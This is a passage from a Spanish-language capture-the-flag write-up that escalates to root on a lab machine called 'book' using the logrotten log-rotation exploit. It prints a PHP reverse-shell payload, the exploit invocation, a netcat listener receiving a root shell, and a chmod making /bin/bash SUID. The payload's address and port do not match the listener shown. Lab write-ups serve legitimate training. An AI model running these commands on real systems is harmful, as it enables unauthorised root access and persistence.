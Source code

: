 De acuerdo con lo que nos dice el autor del exploit, debemos crear un archivo de nombre `
payloadfile` que almacene un comando de reverse shell, que para este caso vamos a utilizar `bash` y le daremos permisos de ejecución.

```bash
reader@book:/dev/shm$ nano payloadfile
reader@book:/dev/shm$ chmod +x payloadfile 
reader@book:/dev/shm$ cat payloadfile 
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
reader@book:/dev/shm$
```

Por último, necesitamos apuntar hacia un archivo de extensión **.log**, el cual lo encontramos en la ruta del usuario **reader**:

```bash
reader@book:~/backups$ ll
total 12
drwxr-xr-x 2 reader reader 4096 Jul 20  2021 ./
drwxr-xr-x 7 reader reader 4096 Jan 24 04:42 ../
-rw-r--r-- 1 reader reader    0 Jan 29  2020 access.log
-rw-r--r-- 1 reader reader   91 Jan 29  2020 access.log.1
reader@book:~/backups$ 
```

Ejecutamos el exploit de acuerdo a como nos indica el repositorio:

```bash
reader@book:/dev/shm$ ./logrotten -p payloadfile /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
```

Ahora, ingresamos a la máquina con otra sesión, nos ponemos en escucha por el puerto 443 y en la nueva sesión escribimos cualquier cosa en el archivo `/home/reader/backups/access.log` (**Nota**: Es posible que no nos jale a la primera, así que hay que volver a ejecutar el exploit hasta que nos entable una reverse shell):

```bash
reader@book:~$ echo "k4miyo" > /home/reader/backups/access.log
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.176] 48078
# whoami
root
```

Debido a que la sesión muere despúes de unos segundos, vamos a tratar de darle permisos SUID a la `/bin/bash`:

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.176] 52130
# chmod 4755 /bin/bash
# Hangup
```
